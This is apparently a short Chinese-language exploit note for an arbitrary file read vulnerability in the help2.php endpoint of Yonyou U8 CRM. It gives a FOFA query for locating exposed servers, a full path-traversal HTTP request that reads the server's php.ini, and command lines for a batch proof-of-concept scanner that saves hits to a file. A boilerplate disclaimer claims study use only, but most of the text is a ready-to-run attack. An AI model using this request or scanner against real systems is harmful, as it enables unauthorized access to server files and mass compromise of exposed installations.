

# 用友U8 CRM系统help2 任意文件读取漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

FOFA：title="用友U8CRM"

GET /pub/help2.php?key=/../../apache/php.ini HTTP/1.1 

Host:  User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 

Accept-Encoding: gzip, deflate 

DNT: 1 

Connection: close 

Upgrade-Insecure-Requests: 1 

批量poc(记得安装库)

python poc.py -u 

python poc.py -f  .txt

结果保存至result.txt

入圈
